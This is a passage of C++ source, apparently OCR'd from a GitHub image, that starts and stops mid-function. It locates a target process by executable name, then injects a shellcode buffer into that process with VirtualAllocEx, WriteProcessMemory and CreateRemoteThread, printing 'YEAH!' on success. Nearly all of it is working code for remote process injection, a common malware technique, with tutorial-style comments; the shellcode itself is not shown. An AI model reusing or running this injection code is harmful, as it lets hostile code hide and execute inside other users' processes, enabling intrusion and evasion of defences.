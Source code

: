 ```cpp
    // Handle for snpashot of all processes
    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;

    // Take a snapshot of all processes in the system.
    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap)
        return 0;

    // https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/ns-tlhelp32-processentry32
    // before calling Process32First we should set the size of the structure
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // Retrieve information about the first process,
    // and exit if unsuccessful
    if (!Process32First(hProcSnap, &pe32)) {
        CloseHandle(hProcSnap);
        return 0;
    }

    // Iterating over each process from snapshot hProcSnap
    // &pe32 -> A pointer to a PROCESSENTRY32 structure.
    while (Process32Next(hProcSnap, &pe32)) {
        // pe32.szExeFile - name of the executable file
        if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
    }

    CloseHandle(hProcSnap);

    return pid;
}

/**
 * Injects the shellcode into given process
 *
 * @param HANDLE hProc the name of the process
 * @return success of the injection
 */
int inject(HANDLE hProc) {
    PVOID remoteBuffer = NULL;
    HANDLE hThread = NULL;
    DWORD oldprotect = 0;

    // reserve some memory to write (think about it as malloc())
    remoteBuffer = VirtualAllocEx(hProc, NULL, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    // write data to allocated memory
    printf("virtualAllocEx %d\n", GetLastError());

    // Copies the contents of a source memory block to a destination memory block
    // RtlMoveMemory(remoteBuffer, shellcode, shellcode_len);
    WriteProcessMemory(hProc, remoteBuffer, shellcode, sizeof shellcode, NULL);
    printf("WriteProcessMemory %d\n", GetLastError());

    // here we just run our code in the virtual adress space of given process
    hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (hThread != NULL) {
        printf("YEAH!\n");
```